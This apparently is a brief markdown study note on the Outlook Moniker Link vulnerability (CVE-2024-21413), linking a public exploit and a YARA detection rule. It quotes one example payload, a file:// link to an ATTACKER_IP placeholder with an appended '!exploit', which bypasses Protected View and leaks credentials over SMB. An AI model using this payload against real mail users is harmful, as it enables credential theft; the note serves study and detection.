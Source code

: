 ### Moniker Link
- a type of hyperlink
- https://learn.microsoft.com/en-us/windows/win32/com/url-monikers
- RISK:
  - Adding ! and extra text to a file:// link `(e.g., file://ATTACKER_IP/test!exploit)` bypasses Outlook’s Protected View, allowing access to the link.
  - This exploit uses the SMB protocol, which can expose local credentials to the attacker.
    
___


### Example Exploit made by CMNatic
- https://github.com/CMNatic/CVE-2024-21413

___


### Detection by Florian Roth
- Yara rule: https://github.com/Neo23x0/signature-base/blob/master/yara/expl_outlook_cve_2024_21413.yar
- https://x.com/cyb3rops/status/1758792873254744344

[Back](../README.md)
